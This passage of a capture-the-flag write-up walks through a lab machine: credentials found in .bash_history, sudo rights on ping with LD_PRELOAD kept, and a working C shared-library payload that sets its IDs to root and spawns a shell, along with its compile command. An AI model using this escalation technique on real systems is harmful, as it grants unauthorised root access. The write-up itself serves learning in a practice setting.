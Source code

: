After having cracked the password (which is deliberately not shown here, but can be found in `rockyou.txt`), we can log onto the machine as `saad`. In the user's home folder, we find the `user.txt` flag, which could already have been obtained through the LFI vulnerability.



## Escalating Our Privileges
Inspecting besaid home folder, we see that the `.bash_history` file actually contains some information. Under it, we find the following bit.

```
echo "saad:-REDACTED-" > creds.txt
```

Apparently, we found ourselves a password for this user. Let's check its validity with `sudo -l`, which further gives us important information on possiblities for privilege escalation.

```
> sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

As [GTFOBins](https://gtfobins.github.io/) states, `ping` won't allow us to break out of a process and maintain its root rights. But the `env_keep+=LD_PRELOAD` part on the other hand seems interesting, since it indicates that our user can start the `ping` program in combination with custom runtime libraries, since the according environment variable is kept, a functionality normally used to replace standard OS routines which can be useful in special cases. In our case this allows to create our own litte runtime library, that we will write in C. Note that the function `_init()` is invoked when the library is loaded. Since we start the whole process (i.e. `ping`) with `sudo`, in the load phase of the library we have the rights to set the user and group ID to 0, making us root in this context. We can then launch a `sh` session and escape before the invoke of `ping` even takes place.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

We compile the code, that is in `exploit.c` on the victim's machine, with the following command.

```
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```
